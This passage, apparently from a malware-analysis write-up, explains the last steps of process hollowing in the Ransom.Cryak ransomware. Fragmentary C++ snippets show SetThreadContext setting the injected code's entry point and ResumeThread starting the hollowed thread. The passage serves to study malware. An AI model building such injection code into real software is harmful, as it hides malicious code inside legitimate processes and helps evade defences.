 ```cpp
  }	
//....
```

The malware uses `SetThreadContext` function to determine the Entry point of the new code section, which has been written:

```cpp
//...
if (!SetThreadContext(pProcessInfo->hThread, pContext)) {
  printf("Error setting context\r\n");
  return;
}
//...
```

Finally, the malware resumes the suspended thread using the `ResumeThread` method:

```cpp
//...

printf("Resuming thread\r\n");
if (!ResumeThread(pProcessInfo->hThread)) {
  printf("Error resuming thread\r\n");
  return;
}
printf("Process hollowing complete\r\n");
//...
```

The illustration depicts a disassembly trace of *Ransom. Cryak*'s process hollowing:

